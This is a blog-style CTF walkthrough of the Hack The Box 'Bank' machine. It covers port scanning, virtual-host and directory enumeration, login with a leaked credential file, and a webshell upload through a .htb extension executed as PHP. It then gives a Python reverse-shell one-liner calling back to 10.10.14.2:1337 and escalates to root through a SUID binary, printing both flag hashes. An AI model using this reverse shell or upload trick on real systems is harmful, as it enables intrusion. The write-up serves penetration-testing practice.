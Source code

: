 ```yaml
---
layout: post
title: bank Walkthrough
subtitle: Hack The Box Bank Solution
tags: [bank, hackthebox, htb, walkthrough, pentest, CTF]
comments: true
---
```


We are going to do a penetration test of a nice machine from hackthebox.eu called bank. I made it in company of my work mate last [last](http://blog.notso.pro "last") in about 5 hours. This machine hasn't been so hard, but we had few problems to understand how to unlock the way to cross.
The only information we received were the name of the machine
````
bank
````
and the ip address
```
10.10.10.29 
```

so we to scanned it using nmap

~~~
root@kali:~# nmap -sV -p- -n 10.10.10.29
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-26 14:25 CEST
Nmap scan report for 10.10.10.29
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.26 seconds
~~~

we can notice we found 3 services to check.

- OpenSSH 6.6.1p1
- ISC BIND 9.9.5-3ubuntu0.14
- Apache httpd 2.4.7

but there weren't knowed vulnerability for them.

So We tried to connect on the 80 port for checking the web server, but we didn't get interesting things.
The response was the default page of Apache, and weren't surprises hidden in the source code. We tried to enumerate hidden directory using dirbuster but nothing happened.


We wasted a lot of time trying to find the right way, 
using big wordlist for the directories webserver enumeration, connecting to the 53 port without results, scanning UDP port of the machine.
After few hours spent without results, we had an idea.
Maybe the server was configured with virtualhost, so using the right domain we would be able to connect to the web application.

so we edited our hosts file
~~~
root@kali:/# nano etc/hosts
~~~

adding this line
~~~
10.10.10.29	bank.htb
~~~

so going by browser on `bank.htb` TADA'!!!
we found the login panel of the web application.
SQL injection didn't work, so we tried again to enumerate the directories.

## ENUMERATION
I launched my dear friends **dirsearch**

~~~
root@kali:~/dirsearch# python3 dirsearch.py -u bank.htb -e * -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
~~~
let me analyze the command:
- **-u bank.htb** for specifying the Host
- **-e * ** for the extentions (we set ALL) 
- **-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt** for the wordlist, i preferred to use the biggest wordlist for being sure

That's the result

~~~
[15:06:44] Starting: 
[15:06:44] 301 -  305B  - /uploads  ->  http://bank.htb/uploads/
[15:06:45] 301 -  304B  - /assets  ->  http://bank.htb/assets/
[15:06:48] 302 -    7KB - /  ->  login.php
[15:06:52] 301 -  301B  - /inc  ->  http://bank.htb/inc/
[15:12:19] 403 -  288B  - /server-status
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/

Task Completed
~~~

Our attenction was on

~~~
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/
~~~

in this directory there was an huge list of crypted .acc (account) files.

They were so similar, so **last** said me to check the size, We found one smaller then the others.

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/found-not-encrypted.png "found-not-encrypted")

One file wasn't crypted and the informations were readable.

~~~
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
~~~

We were able to log in the platform, watching the balance, transaction history etc etc.
The vulnerability was inside the support page, there was an upload module, but we didn't find a way for uploading malware right there.


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/support-page.png "support-page")

### EXPLOITATION

Reading more deeply we discovered the developer missed an important information used for debugging inside the HTML source code.

~~~
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
~~~


**thanks Mr Dev!** We can now upload our fantastic square-webshell (you should look at it on the [official repository](https://github.com/MrSaighnal/square-webshell "official repo")) simply changing the extension to .htb .

exploring the file system we found the first flag

~~~
cat ../../../../home/chris/user.txt
~~~

user.txt output:
~~~
37c97f8609f361848d8872098b0721c3
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/square-webshell.png "user owned")

{: .box-success}
**Success:** User Owned.

it's now time to spawn real shell for managing our new system :-)

let's get ready our computer for receving connections through **nc** using the command

~~~
root@kali:~# nc -vv -n -l -p 1337
~~~
Our machine is now listening on the 1337 port. (Don't close this terminal!!!)

let's launch on the webshell this command

~~~
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
~~~

be sure to edit the 3°raw with your parameters **YOUR_IP** and **PORT**.

come back on your **nc** terminal and you shold see something similar to:

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$
~~~

let's try to launch a command

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
~~~
it works.

### PRIVILEDGE ESCALATION

for priviledge escalation we launched a command for checking all files with high priviledge 

~~~
$ find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2> /dev/null
~~~

and the first apperd so weird:

~~~
-rwsr-xr-x 1 root root 112204 Jun 14  2017 `/var/htb/bin/emergency`
~~~

Our friend sysadmin misconfigurated the system leaving an important vulnerability open, through this file anyboyd is able to become root.

~~~
cd /var/htb/bin/
ls
emergency
./emergency
whoami
root
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/whoami-root.png "whoami root")

and get the root flag 

~~~
cat /root/root.txt  
d5be56adc67b488f81a4b9de30c8a68e
~~~


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/root-flag.png "root owned")

{: .box-success}
**Success:** Root Owned.
